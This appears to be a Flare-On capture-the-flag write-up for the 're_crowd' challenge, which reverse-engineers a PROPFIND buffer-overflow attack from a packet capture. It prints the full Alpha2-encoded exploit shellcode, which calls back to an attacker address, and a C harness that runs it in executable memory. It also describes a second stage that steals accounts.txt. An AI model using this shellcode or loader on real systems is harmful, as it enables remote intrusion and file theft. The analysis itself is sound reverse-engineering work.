# Challenge 7 - re_crowd

This challenge starts off with a simple WireShark capture `re_crowd.pcapng`. Some initial investigation of the capture reveals repeated HTTP `PROPFIND` requests:



Looking through these `PROPFIND` requests, they have an interesting pattern:



As we can see, each request contains a URL followed by some junk, then a large amount of static ASCII. The length gets smaller and smaller until suddenly we get this successful request:



This request returned no error message, and afterwards the server and attacker exchanged binary blobs. `PROPFIND` is noted online for having been vulnerable to buffer overflow attacks overwriting return addresses, so it's likely that's what's happening.

The string `VVYAIAIAIAIAIAIAIAIAIAIAIAIAIAIA` at the start of the ASCII blob in the request actually brings up some hits online, and it turns out this attack is using the tool [___Alpha2-encoder___](https://github.com/un4ckn0wl3z/Alpha2-encoder/blob/master/alpha2.c) to transform shellcode into executable ASCII. Some important bits to note are that the `VVYAIAIAIAIAIAIAIAIAIAIAIAIAIAIA` header indicates that the ASCII must be transformed into unicode (UTF-16LE) to become runnable, which Windows would do when it tries to read the request. Taking the byte string in C using `wchar_t` produces a runnable version of the shellcode:

```c
wchar_t shellcode1[] =
// url and padding (383 unicode characters)
L"\x68\x74\x74\x70\x3A\x2F\x2F\x31\x39\x32\x2E\x31\x36\x38\x2E\x36\x38\x2E\x31\x3A\x38\x30\x2F\x6C\x4E\x59\x71\x77\x53\x6C\x57\x67\x4D\x78\x6A\x76\x72\x64\x53\x4D\x6E\x43\x56\x56\x7A\x44\x58\x63\x53\x66\x4D\x45\x41\x58\x59\x50\x50\x62\x4C\x68\x73\x6E\x75\x70\x63\x63\x59\x76\x6B\x72\x4F\x65\x75\x4B\x72\x73\x55\x4C\x6E\x42\x4A\x7A\x68\x6D\x64\x4F\x52\x76\x42\x57\x54\x4D\x44\x6C\x70\x42\x6E\x4A\x56\x54\x79\x57\x50\x4A\x75\x48\x61\x66\x64\x52\x4C\x4F\x70\x54\x58\x4C\x63\x46\xE4\xB5\x84\xE5\x91\xB4\xE6\x95\x82\xE5\x8D\xB7\xE6\xBD\xA6\xE4\xBD\x83\xE5\x95\x8C\xE7\x95\x86\xE7\x95\xAB\xE5\x81\xAF\xE7\x81\x92\xE5\x81\x98\xE4\xB1\x90\xE4\xA9\xB5\xE1\x8F\x80\xE6\xA0\x83\xEF\x8E\x8D\xE7\x9E\xBD\xE7\x95\x94\xE6\x89\xA3\xE5\x8D\xB5\xE4\xB1\x89\xE1\x8F\x80\xE6\xA0\x83\xE4\xA1\x88\xE7\x89\xB0\xE6\xA5\x84\xE6\xA1\xA6\xE5\xA5\x92\xE6\xA1\x95\xE6\x85\x84\xE6\xBD\x99\xE6\x82\x82\xE6\xA0\x81\xEB\x81\xAC\xE7\x9E\xBC\xEF\x80\x81\xE7\x9E\xBE\xE2\x95\xA3\xE7\x9E\xBB\xE1\x84\x94\xE7\x9E\xBA\xEF\x89\x84\xE7\x9E\xBB\xE4\x85\x81\xE4\x85\x81\xEE\xB8\xA2\xE7\x9E\xBB\xE9\xA0\x81\xE7\x9E\xBC\xE2\x89\xA5\xE7\x9E\xBE\xE2\x95\xA3\xE7\x9E\xBB\xE9\x91\xAF\xCF\x80\xED\x91\x81\xE7\x9E\xBD\xE4\xA3\x93\xE7\x9E\xBB\xE2\x87\xA0\xE7\x9E\xBF\xEF\x84\x82\xE7\x9E\xBB\xEF\xB0\x82\xE7\x9E\xBB\xEF\x80\x81\xE7\x9E\xBE\xE8\xB0\x84\xE7\x9E\xBD\xE8\xB0\x85\xE7\x9E\xBD\xE2\x95\xA3\xE7\x9E\xBB\xE9\x91\x8F\xCF\x80\xED\x91\x81\xE7\x9E\xBD\xE8\x8A\x85\xE7\x9E\xBB\xE2\x95\xA3\xE7\x9E\xBB\xE9\x82\x90\xE9\x82\x90\xE6\x96\x91\xE7\x9E\xBE\xE5\xB9\x94\xEC\x9A\x83\xE4\x84\x8A"
// Alpha2 command -> mixedcase unicode, esi contains the baseaddress
L"VVYAIAIAIAIAIAIAIAIAIAIAIAIAIAIA"
// shellcode 1
L"jXAQADAZABARALAYAIAQAIAQAIAhAAAZ1AIAIAJ11AIAIABABABQI1AIQIAIQI111AIAJQYAZBABABABABkMAGB9u4JBYlHharm0ipIpS0u9iUMaY0qTtKB0NPRkqBLLBkPRMDbksBlhlOwGMzmVNQkOTlmlQQqllBLlMPGQVoZmjaFgXbIbr2NwRk1BzpDKmzOLtKPLjqqhJCa8za8QPQtKaImPIqgctKMyZxk3MjniRkMddKM16vnQYoVLfaXOjm9quwP8Wp0ul6LCqm9hOKamNDCEGtnxBkOhMTKQVs2FtKLLPKdKNxKlYqZ3tKLDDKYqXPdIq4nDnDokqKS1pY1Jb1yoK0Oo1OQJbkZrHkrmaMbHLsLrYpkPBHRWrSlraO1DS8nlbWmVkW9oHUtxV0M1IpypKyi4Ntb0bHNIu00kypioIENpNpPP201020a0npS8xjLOGogpIoweF7PjkUS8Upw814n5PhLBipjqqLriXfqZlPr6b7ph3iteadqQKOweCUEpd4JlYopN9xbUHl0hzPWEVBR6yofu0j9pQZkTqFR7oxKRyIfhoo9oHUDKp63QZVpKqH0OnrbmlN2JmpoxM0N0ypKP0QRJipphpX6D0Sk5ioGeBmDX9pkQ9pM0r3R6pPBJKP0Vb3B738KRxYFh1OIoHU9qUsNIUv1ehnQKqIomr5Og4IYOgxLPkPM0yp0kS9RLplaUT22V2UBLD4RUqbs5LqMbOC1Np1gPdjkNUpBU9k1q8oypm19pM0NQyK9rmL9wsYersPK2LOjbklmF4JztkWDFjtmObhMDIwyn90SE7xMa7kKN7PYrmLywcZN4IwSVZtMOqxlTLGIrn4ko1zKdn7P0B5IppEmyBUjEaOUsAA";

wchar_t *shellcode;
void (*func)();

// copy the shellcode into writable, executable memory
shellcode = VirtualAlloc(NULL, 0x1000, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
CopyMemory(shellcode, shellcode1, wcslen(shellcode1) * sizeof(wchar_t));
func = (void (*)()) (shellcode + 383);
__asm
{
    // the shellcode requires esi to equal its own baseaddress
    mov esi, [ebp-8]
}
func();
```

When this code runs, the Alpha2-encoder first decodes the unicode back into runnable x86 assembly. It then calls ```LoadLibraryA``` on ```ws2_32.dll``` and attempts to make a connection from the server back to the attacker:



The first call in this assembly is used several times for the various LoadLibraryA calls:



TCP stream 50 in the WireShark capture shows the data that the attacker sent next when these calls succeeded in the original attack:



The currently running shellcode unencrypts this data into more shellcode, then jumps into it. See the appended .c file at the bottom for an implementation of this decryption. The following shows a segment where the first four bytes of the newly acquired data is XORd with a magic number. This becomes ```1239```, which is the length of the rest of the encrypted shellcode:



The decryption also makes use of the string ```killervulture123```, which is in memory after the shellcode decodes itself from unicode:



Once we have this second shellcode file decrypted, we can make it executable in mostly the same way as before, loading it as a string literal then calling it in C. Doing so reveals the following:



This is likely the file that was stolen from the server, then sent back over the network to the attacker in TCP stream 51:



The encryption used on this file is very fortunate in that it is bi-directional; encrypt it twice and it's back into its original format! This can be verified by saving the data from TCP stream 51 into ```C:\accounts.txt```, then running the shellcode. If we use a debugger to break on the file being loaded into memory, then use ```ba w4 <address to accounts.txt EOF>``` to break at the end of the encryption, we can view its contents right after its been encrypted a second time:



Flag: `h4ve_you_tri3d_turning_1t_0ff_and_0n_ag4in@flare-on.com`

&nbsp;

Click here for the shellcode decryptor and runner:
[shellcode.c](../_resources/shellcode.c)